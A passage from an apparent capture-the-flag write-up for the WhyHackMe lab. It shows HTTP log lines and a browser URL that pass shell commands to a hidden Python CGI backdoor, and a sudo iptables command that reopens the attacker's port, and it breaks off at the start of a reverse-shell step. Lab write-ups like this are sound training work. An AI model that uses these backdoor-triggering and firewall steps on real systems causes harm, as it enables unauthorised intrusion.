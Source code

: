```
90	52.766870	10.133.71.33	10.13.64.69	HTTP	631	GET /cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=ls%20-al HTTP/1.1 
69	40.807937	10.133.71.33	10.13.64.69	HTTP	631	GET /cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id HTTP/1.1 

```

These look like encrypted parameters passed to a Python backdoor script on the target machine. Clearly, this was the backdoor mentioned in the urgent message earlier.


## Reopening the Attacker's Port

To test the backdoor, I needed to reopen port `41312`. Since I had sudo access to `iptables`, I inserted a rule to allow incoming traffic:

```
sudo /usr/sbin/iptables -I INPUT -p tcp --dport 41312 -j ACCEPT
```

Verifying with `iptables -L` confirmed the port was now open:

```
1    ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:41312

```

## Triggering the backdoor

From my browser, I navigated to :

```
https://10.10.147.92:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=ls%20-al

```

And it worked — I got a response. This confirmed the backdoor was still active.

Now it was time to get a reverse shell.

![11](/images/whyhackme/11.jpg)

